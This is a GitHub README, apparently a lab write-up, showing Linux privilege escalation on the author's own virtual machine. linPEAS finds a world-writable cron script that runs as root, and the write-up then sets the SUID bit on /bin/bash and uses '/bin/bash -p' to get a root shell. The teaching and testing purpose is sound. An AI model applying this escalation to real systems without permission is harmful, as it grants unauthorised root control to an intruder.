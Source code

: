 # 🔐 Linux Privilege Escalation – Writable Script & Cron Job
> ⚠️ Disclaimer: This project is for **educational & documentation purposes**.I have created a vulnerability on VM which allows me to escalate Privileges. Do not use these techniques on systems you do not own or have explicit permission to test.

---

## 👤 Initial Setup – Create a Low-Privilege User

Start by creating a non-privileged user to simulate a real-world scenario where an attacker does not have root access.

```bash
sudo adduser student
```

Switch to the user when needed:

```bash
su - student
```

---

## 🧭 Step 1 – Downloading & Understanding `linPEAS`

[`linPEAS`](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) is a powerful script for **privilege escalation enumeration** on Linux systems. It automates checks for common misconfigurations, SUID binaries, writable files, PATH issues, and more.

linPEAS is part of the PEASS-ng (Privilege Escalation Awesome Scripts Suite) project. It's a privilege escalation enumeration script designed specifically for Linux systems.

When you're on a machine with limited privileges (like a CTF or pentest scenario), your goal is often to find misconfigurations or overlooked settings that let you become root. linPEAS automates this process.

📥 Clone the repo or download the standalone script:

```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
```

---

## 🚀 Step 2 – Running `linPEAS`

After switching to a **low-privileged user**, run the script:

```bash
./linpeas.sh
```

![linPEAS working](../../Screenshots/Privilege-Escalations/linPEAS.png)

*Figure 1: linpeas working*

This will output a comprehensive scan of the system. Look for:

- Writable scripts executed by root
- Scheduled cron jobs
- Misconfigured SUID binaries
- PATH hijack opportunities
- World-writable system files

---

## 🔍 Step 3 – linPEAS Identifies Writable Root Script

In this example, `linPEAS` flagged a **world-writable script** located at:

```
/usr/local/bin/vuln_script.sh
```

![linPEAS working](../../Screenshots/Privilege-Escalations/vuln.png)

*Figure 2: Vulnerability Detected*

This script is executed by root via cron every minute.

---

## ⚠️ General Exploitation Idea

If a **low-privileged user can modify a script that runs as root**, they can insert commands to:

- Add themselves to the `sudoers` file
- Give SUID permissions to `/bin/bash`
- Replace sensitive binaries with reverse shells
- Read/write protected files

---

## 🎯 Final Exploit

Once the cron job executed the modified script, we verified the change:

```bash
ls -l /bin/bash
# -rwsr-sr-x 1 root root ... /bin/bash
```

Now, from the `student` user, we ran:

```bash
/bin/bash -p
whoami
# root
```

![PE to root](../../Screenshots/Privilege-Escalations/Output.png)

*Figure 3: Successful escalation to Root*

---

## ✅ Summary

- `linPEAS` helped identify a **writable root-owned cron script**
- We exploited it by adding a **setuid bit to bash**
- This enabled us to spawn a root shell with `/bin/bash -p`

---

## 📁 Repo Contents

| File | Description |
|------|-------------|
| `linpeas.sh` | Enumeration script |
| `images/` | Screenshots from exploit process |
| `README.md` | This documentation |